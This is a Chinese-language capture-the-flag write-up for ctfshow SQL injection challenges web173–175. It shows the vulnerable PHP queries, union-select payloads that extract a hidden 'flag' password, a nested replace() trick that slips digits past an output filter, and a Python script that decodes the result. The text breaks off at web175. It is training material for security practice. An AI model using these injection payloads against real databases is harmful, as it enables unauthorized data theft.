## web173（无过滤，替换返回值）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user3 where username !='flag' and id = '".$_GET['id']."' limit 1;";

//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```
对执行结果进行json编码，不能出现flag，那么解题思路同上
payload：1'union select id,1,password from ctfshow_user3 where username='flag' -- -
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638879567565-8daa1c50-bb61-4c38-8058-bebb29cf1863.png)

## web174（无过滤，替换返回值）
```sql
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user4 where username !='flag' and id = '".$_GET['id']."' limit 1;";

//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```
这个题返回结果中不可以有数字，而flag中一定会有数字，仔细想想可以把flag中的数字用其他字符替换掉，比如将0-9用A-J替换，用大写字母的原因是和flag中的小写字母区别开，防止最后还原的时候出现错误
payload：1'union select 'a' ,replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password, '0', 'A'), '1', 'B'), '2', 'C'), '3', 'D'), '4', 'E'), '5', 'F'), '6', 'G'), '7', 'H'), '8', 'I'), '9', 'J')from ctfshow_user4 where username='flag' -- -
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638880470240-221db9e8-7544-4196-a917-6161e061646a.png)
flag还原脚本：

```python
'''
Author: KonDream
Date: 2021-12-07 20:25:17
LastEditors:  KonDream
LastEditTime: 2021-12-07 20:29:23
Description:  sql174
'''

payload = "replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password, '0', 'A'), '1', 'B'), '2', 'C'), '3', 'D'), '4', 'E'), '5', 'F'), '6', 'G'), '7', 'H'), '8', 'I'), '9', 'J')"

to_replace = 'ctfshow{cAdIbFBa-cBIA-EGeA-baFa-JEEGbCBeJeAd}'

for i in range(10):
    to_replace = to_replace.replace(chr(i + 65), str(i))

print(to_replace)
#ctfshow{c0d8b51a-c180-46e0-ba5a-9446b21e9e0d}
```
## web175（无过滤，导出数据到指定目录下）
```sql
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";

```